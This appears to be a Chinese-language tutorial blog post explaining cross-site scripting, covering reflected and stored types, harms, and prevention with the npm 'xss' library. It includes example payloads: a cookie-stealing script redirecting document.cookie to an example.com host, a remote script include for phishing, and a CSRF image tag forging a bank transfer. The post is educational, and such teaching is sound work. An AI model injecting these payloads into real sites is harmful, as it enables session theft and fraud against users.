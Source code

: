 ```yaml
---
title: 'XSS:跨站脚本攻击'
date: 2018-03-23 17:31:08
tags: ['网络安全']
---
```


在网络安全领域，有许多的安全问题值得我们去关注，网络安全本身就是一门很大的计算机学科。今天我们仅仅关注其中与web相关的一个安全问题：XSS。

# XSS?
XSS（Cross-Site Scripting），全称跨站脚本攻击。它是一种通过向HTML注入恶意代码执行，从而达到非法目的的攻击。一般这种XSS注入都比较隐蔽，需要通过检索代码才能发现（甚至有的代码是被混淆过的，就更隐蔽了）。

XSS牵扯到三个角色：攻击者、目标服务器、受害浏览器

# XSS类型
XSS主要有两种类型：反射型XSS和存储型XSS

### 1. 反射型XSS

反射型XSS又称非持久性XSS，主要依靠目标服务器返回结果给受害浏览器，从而受害浏览器执行恶意代码而被攻击。一般出现在错误信息反馈或搜索结果返回情况下。
通常受害者需要主动点击链接才会被攻击，因此是一次性的，所以叫非持久性XSS。

假设目标服务器是一个搜索网站，如果它不进行XSS预防，而直接将搜索条件返回，比如受害者点击如下链接：

```html
http://www.example.com?q=<script>alert(document.cookie);</script>
```

当目标服务器返回搜索结果，并将q值填入input框，受害浏览器就会执行script脚本，从而会将cookie信息暴露出来。

### 2. 存储型XSS

存储型XSS又称持久性XSS，它与反射型XSS最大不同在于，恶意代码是被永久存储在目标服务器中的。当受害者打开目标服务器网页时，目标服务器将恶意代码以网页内容返回，从而被攻击。
这种XSS的危害范围更大，隐蔽性更强，时间也长久，受害者很难防御。

一般UGC类网站需要特别关注这个问题。


# XSS危害

### 1. 窃取cookie

假设攻击者在页面中注入如下代码：

```html
<script>
    location.href = 'http://www.example.com?cookie=' + document.cookie;
</script>
```

此时受害浏览器跳转到指定链接，从而把cookie泄露。一旦cookie泄露后，攻击者就会伪造受害者请求，从而获得受害者权限从事非法操作，如果受害者拥有管理者权限，就更糟了。

### 2. 引导钓鱼

攻击者像网页写入如下脚本：

```html
<script src="www.example.com/aaa.js"></script>
```
在`aaa.js`中会生成一些表单form，引导你填写敏感数据，如账号密码等。当受害者当真了，就上当了。

因为XSS利用的是用户信任的网站，隐蔽性较高。

### 3. 跨站请求伪造

跨站请求伪造(Cross-Site Request Forgery, CSRF)是利用静态资源src属性，如图片、视频等资源，将请求伪装至src属性中。由于是信任网站发出的请求，会带上该网站的合法cookie，从而导致攻击：

```html
<img src="http://www.bank.com/transfer.do?toAccount=123456&money=10000"/>
```
以上会发起转账请求，由于是从目标网站发出，且带上了合法cookie，从而目标服务器信任这次请求。

### 4. 木马蠕虫注入

通过XSS可以很容易的在网页注入脚本后下载一些木马蠕虫等恶意软件。


# XSS预防

针对XSS类型，我们从两个源头进行预防：

### 1. 输入预防
从上面的XSS实施过程中可以看出，XSS主要通过注入一些标签来完成攻击，因此在输入端可以过滤掉这些敏感的字符，比如`<>` `script`等标签敏感期。对用户的输入做安全编码，如在提交表单前对value进行编码：
```js
encodeURIComponent(value)
```

或对用户的输入进行前端规则校验，如不允许输入特殊字符，限制字符数量类型等。

### 2. 存储预防

前端规则过滤只能防君子，不能防小人。目标服务器端也需要对用户提交的数据进行校验，如果出现非法字符，则直接报错或拒绝服务。


# XSS插件

推荐使用开源项目[XSS](https://www.npmjs.com/package/xss),或其他的xss项目预防此类攻击.

